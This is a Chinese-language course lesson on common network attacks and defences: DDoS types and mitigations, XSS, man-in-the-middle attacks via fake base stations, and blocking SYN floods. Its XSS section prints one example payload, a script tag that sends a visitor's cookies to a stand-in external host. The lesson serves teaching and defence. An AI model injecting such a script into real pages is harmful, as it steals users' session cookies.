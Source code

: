 安全无小事。2016 年 DNS 提供商 Dyn 遭遇了一次大规模的 DDoS（分布式拒绝服务攻击），有 14000 个网站域名受到影响。2020 年 7 月份，Twitter 遭大规模攻击，黑客控制了包括马斯克、盖茨、奥巴马等人的 Twitter 账号，诱导用户购买比特币，最终骗取了 11W 美金。2021 年 4 月份，还有黑客利用 Github 的 Actions（Github 的一种 CI/CD 方案），诱导用户进行 git 操作时触发恶意比特币的矿机。

特别是在中国这种人口基数大，互联网发达的国家，如果一个互联网公司的安全出了故障，那么影响将是巨大的。前几年，我们国家出现过一起影响较大的安全问题——某知名技术社区用户的用户名和密码被大规模泄露。前车之鉴、后车之覆，我们要吸取教训。因此，这一讲我们就以“**如何抵御 SYN 拒绝攻击**”为引，开启今天的学习，让你对网络安全的常见攻防手段有一个初步了解。

### 拒绝服务攻击（DoS)

**拒绝服务攻击**（**Denial-of-Service Attack，DoS**）**是一种常见的攻击手段**。虽然目前互联网越来越趋向于正规化，但是对于黑产还有利用 DoS 攻击黑吃黑的现象。比较常见的就是热血传奇这款游戏的私服，搭建一个私服可以获得大额非法收入，但是因为是黑产也会经常受到黑客的攻击。黑客攻击后，再发邮件到管理员邮箱索取金钱，威胁用户不尽快打款就会一直攻击。

在过去，黑产间的攻阀，DoS 就可以作为一种常见武器。**DoS 的原理就是利用大量的流量迅速向一个网站发送出去**。这种流量可能是应用层的，比如大量 HTTP 请求；也可以是传输层，比如大量的 TCP 请求。比如 2018 年 2 月 18 日，Github 就遭受了一场超大规模的 DoS 攻击，瞬间流量峰值达到了 1.35Tbps。之后，黑客还对 Google、亚马逊等网站也进行了攻击。

为了形成足够强大的流量，攻击者往往没有足够的经济实力购买机器，而是利用中病毒、木马的机器组织流量攻击。这些中病毒的机器，我们俗称“肉鸡”。顶级的黑客往往控制着大量的肉鸡，一声令下，肉鸡就开始疯狂向目标发送网络封包，直到打垮目标。因为肉鸡是分散在世界各地的，因此这种攻击我们也称为**分布式拒绝服务攻击**（**Distributed Denial-of-Service Attack， DDoS**）。

#### DDoS 的种类

DDoS 的种类有很多，手段也很复杂。

*   直接不停发送 Ping 消息的，利用底层的 ICMP 协议，称为**ICMP 攻击；**
    
*   走 UPD 协议的，称为**UDP 洪水**（**UDP Flood**）；
    
*   不停利用 TCP 协议发送 SYN 消息的，也叫**SYN 攻击；**
    
*   模拟用户行为，不停发帖、浏览帖子、浏览网页、加购物车等，称为**挑战黑洞攻击**（**Challenge Collapsar**）。
    

#### 防范措施

当遇到 DDoS 攻击的时候，如果有所准备，就可以做到有备无患。比如说购买了防火墙，防火墙会根据特征识别出攻击行为，通过这样的方式将攻击行为过滤掉，让系统不会因为 DDoS 而过载造成崩溃。

当然如果是纯粹的流量攻击，仅仅靠防火墙是不够的。通常一些大型互联网公司会进行多活建设。一般是两地三机房，分别是日常生产环境、同城灾备环境和异地灾备环境，遇到 DDoS 可以考虑切换流量，也能起到一定作用。

另外 CDN 在解决 DDoS 时往往也有很好的效果，毕竟 CDN 是大量缓存节点，DDoS 攻击 CDN 的时候用不上力。当然，如果资金不足以购买服务器的小团队，可以自己实现软件防火墙。其实就是设计一台吞吐量极高的代理服务器，作为反向代理挡在所有服务前面，如果遇到 DDoS，代理服务器可以识别出一些特征并丢弃一些流量。

在遇到攻击的时候，对服务适当降级也是有必要的，甚至可以牺牲一部分用户保全另一部分用户的正常使用。防火墙是基于特征识别，本身也会有一定的误杀现象，在被攻击的时候，可以人为降低判定攻击行为的门槛。通过允许防火墙造成一部分的误伤来识别出更多的攻击流量。

### 跨站脚本攻击（XSS）

接下来我们讨论另一种攻击——**跨站脚本攻击**。

2021 年 2 月印度的一名测试工程师在苹果 iCloud 官网中发现了一个跨站脚本攻击漏洞，并向苹果公司提交了具体的漏洞说明和触发的操作步骤。事后，苹果公司给这名印度人发放了 5000 美金的奖金。

**跨站脚本（Cross Site Scripting），顾名思义，就是利用漏洞将脚本注入网页中**。比如提交个人信息的输入框，如果在服务端没有处理好就有可能触发跨站脚本。

假设有一个输入个人签名的多行文本输入框，正常用户会输入几句有趣的话，但是黑客可能会尝试输入：

    <script>document.createElement('img').src="https://some.site.com?cookie=document.cookie"</script>
    

如果这段话被显示到用户的个人主页，那么访问这个用户空间的其他用户就会被攻击，进而被黑客拿走 Cookie 中的关键信息。

XSS 攻击模式很简单，就是想办法向网站的页面上注入脚本。总的来说，输入框是一个重灾区。目前随着前端技术的发展，使用前端框架，比如 React 或 Vue 开发的页面已经杜绝了被 XSS 的可能。但是有时候如果工作出现某些疏漏，还是会导致 XSS 的发生。所以正确的做法是上线前拜托安全部门的同学协助进行一些针对 XSS 漏洞的扫描。

### 中间人攻击

接下来我们聊聊**中间人攻击**。

我们国家目前在打击网络电信诈骗案中，就有这样一种形式。一些不法分子利用伪基站，比如找一个人多的地方，用自己的伪基站设备伪装成基站，向用户提供网络。一些离不法分子较近的人，手机可能会连接上伪基站。连接上后，不法分子的伪基站就成了你上网的代理，可以进行很多非法操作。因此，从这个角度看，中间人黑进你附近的网络，成为你上网的“代理”，并不是非常难的一件事情。不懂技术的犯罪分子，通过购买伪基站设备，就可以充当中间人。

在遇到中间人攻击时，互联网的信用体系、操作系统、浏览器等就会帮你把好最后一关。比如你访问淘宝购物，中间人向你投放假网页。浏览器就会去验证这个假网页的证书，是不是淘宝的证书。去年 Github 在国内疑似被中间人攻击的案例中，国内很多用户看到的现象是浏览器提示用户浏览的网站不安全。这种情况就是浏览器在校对证书的时候发现了疑点。如果你上网遇到这种情况应该选择立即关闭这个网页，不进行后续的操作，防止被骗。

### 总结

生活在当今时代，作为个人，网络安全是一件大事。你的购票信息、出行记录、账号密码、位置信息等，都需要你有防范意识，防止被不法分子拿走。在为公司工作的时候，要保管好自己的账号。特别是你工作用的计算机，要远离非正规渠道获得的软件。你的工作计算机一旦中了木马，成了肉鸡，那不法分子完全可以用你的工作计算机作为跳板，登录公司服务器。

另一方面，作为公司和团队，也要有较强的安全意识。当然，安全领域有自己的专业知识和人才。在互联网产品初期，往往承担不起昂贵的防火墙和雇佣安全专家的费用，这个时候需要开发者主动去学习安全知识，尽可能提升被攻破的成本。当业务发展到一定程度后，就需要马上雇佣安全专家，以及购买包括防火墙在内的网络安全设备。

好的，那么通过这一讲的学习，你现在可以尝试来回答：如何抵御 SYN 拒绝攻击？

【**解析**】SYN 攻击是 DDoS 攻击的一种形式。这种形式攻击者伪装成终端不停地向服务器发起 SYN 请求。通常攻击者的肉鸡，发送了 SYN 之后，不等给服务端 ACK，就下线了。 这样攻击者不断发送 SYN ，然后下线，而服务端会等待一段时间（通常会在 3s 以上），等待 ACK。这样就导致了大量的连接对象在服务端被积累。

针对这个特点可以实现一个 TCP 代理（防火墙），发现有发送 SYN 但是不给 ACK 的行为就对目标 IP 地址禁用一段时间。这个策略平时可以配置成开关，等到被攻击的时候打开。另一方面，可以适当提升连接数支持。

### 思考题

最后给你出一道需要查资料的思考题目：哪些情况下你服务器的 /etc/passwd 文件会被黑客拿走？

这一讲就到这里，发现求知的乐趣，我是林䭽。感谢你学习本次课程，下一讲是《模块五思考题解答》，希望你自己完成题目后再来看答案和分析。再见！
